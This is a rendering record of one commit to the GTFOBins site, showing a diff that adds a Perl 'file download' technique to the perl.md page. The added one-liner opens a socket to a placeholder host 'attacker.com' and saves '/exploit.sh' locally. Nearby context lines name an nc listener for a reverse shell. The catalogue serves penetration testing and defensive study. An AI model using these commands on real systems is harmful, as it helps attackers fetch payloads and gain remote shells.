

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/perl.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
perl.md -- file download
Add a file download example to perl gtfobin

```diff
--- a/_gtfobins/perl.md
+++ b/_gtfobins/perl.md
@@ -6,6 +6,14 @@ functions:
     - code: |
         LFILE=file_to_read
         perl -ne print $LFILE
+  file-download:
+    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=8080
+        export URL=/exploit.sh
+        export LFILE=output.txt
+        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
   reverse-shell:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
```
